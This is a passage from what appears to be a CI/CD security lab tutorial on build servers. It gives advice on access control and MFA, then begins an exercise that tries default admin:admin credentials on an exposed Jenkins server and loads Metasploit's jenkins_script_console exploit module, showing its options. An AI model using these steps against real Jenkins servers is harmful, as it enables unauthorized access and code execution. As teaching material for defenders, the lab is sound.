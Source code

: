 After successfully securing the build process, the next priority is safeguarding the **build server** itself. If an attacker gains access to or controls the build server, they can jeopardize the entire pipeline, putting both the build process and the deployment at risk.

---

#### Build Server Security Fundamentals

Before delving into the specifics of potential attacks, let's first discuss how to secure a build server. The simplest starting point is **access control**. One of the most common attack vectors for CI/CD infrastructure is **credential guessing**. Despite modern security awareness, many build servers still use default or weak login credentials, such as `admin:admin` on tools like Jenkins.

To mitigate this risk, **restrict access** to the build server. Often, multiple team members might need access to the same build server, so it’s essential to enforce **granular access control** to limit the blast radius of a compromised user account. Additionally, enabling **multi-factor authentication (MFA)** for user logins adds an extra layer of defense.

---

#### Exposed Build Server Example

Consider a Jenkins server exposed at **http://build-server.example.local:8080**. In real-world scenarios, you may need to modify your `/etc/hosts` file to map the machine’s IP address, as shown in your network diagram. Once updated, accessing the Jenkins UI should allow you to interact with the server. If the server is using default credentials, trying `admin:admin` might provide you with unauthorized access.

For this exercise, we will demonstrate how to use Metasploit to exploit an exposed Jenkins build server. On your attack machine (such as Kali Linux), open Metasploit by entering the following command:

```bash
msfconsole
```

We will be using the **jenkins_script_console** module from Metasploit to exploit the Jenkins server:

```bash
msf6 > use exploit/multi/http/jenkins_script_console
msf6 exploit(multi/http/jenkins_script_console) > show options
```

The output will show available options that need to be configured, like this:

```bash
Module options (exploit/multi/http/jenkins_script_console):
Name       Current Setting  Required  Description
----       ---------------  --------  -----------
RHOSTS                      yes       Target host(s)
RPORT                       yes       Target port (usually 8080 for Jenkins)
TARGETURI                   yes       Path to Jenkins (e.g., /jenkins/)
USERNAME                    no        Username to authenticate
PASSWORD                    no        Password for authentication
```
